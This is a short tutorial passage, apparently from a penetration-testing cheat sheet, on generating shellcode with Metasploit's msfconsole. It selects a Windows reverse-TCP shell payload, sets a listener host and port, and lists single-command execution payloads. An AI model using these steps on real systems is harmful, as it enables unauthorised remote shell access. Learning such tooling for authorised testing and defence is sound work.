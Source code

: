 # Generate Shellcode



An easy way to generate shellcode is by using `msfvenom` or `msconsole`. I mostly see people recommending msfvenom online, but I think msfconsole can be a bit easier to work with. But of course it is the same thing, just different interfaces.

### Msfconsole <a id="msfconsole"></a>

In msfconsole you have the keyword `generate` that help us generate shellcode. So first we have to select a payload.

```text
use payload/windows/shell_reverse_tcp
```

Now we set the variables as usual

```text
set LPORT 5555
set LHOST 192.168.0.101
```

Now we genereate the shellcode using the command `generate`.

To see the options use `generate -h`

### Single commands in windows <a id="single-commands-in-windows"></a>

If you don't have space and only want to execute a single command you can use

```text
use payload/windows/exec

use payload/cmd/windows/generic
```

